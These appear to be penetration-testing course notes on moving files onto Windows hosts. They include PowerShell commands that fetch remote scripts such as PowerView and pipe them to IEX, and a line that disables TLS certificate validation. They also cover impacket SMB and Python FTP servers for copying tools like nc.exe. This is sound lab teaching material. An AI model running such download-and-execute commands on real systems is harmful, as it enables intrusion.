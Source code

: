 ```
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
```
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
### SMB Downloads
Create SMB Server
```
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
Copy a File from the SMB Server
```
copy \\192.168.220.133\share\nc.exe
```
Create the SMB Server with a Username and Password
```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
Mount the SMB Server with Username and Password
```
net use n: \\192.168.220.133\share /user:test test
```
### FTP Downloads
Installing the FTP Server Python3 Module - pyftpdlib
```
sudo pip3 install pyftpdlib
```
Setting up a Python3 FTP Server
```
sudo python3 -m pyftpdlib --port 21
```
Transfering Files from an FTP Server Using PowerShell
```
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```
Create a Command File for the FTP Client and Download the Target File
```
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
```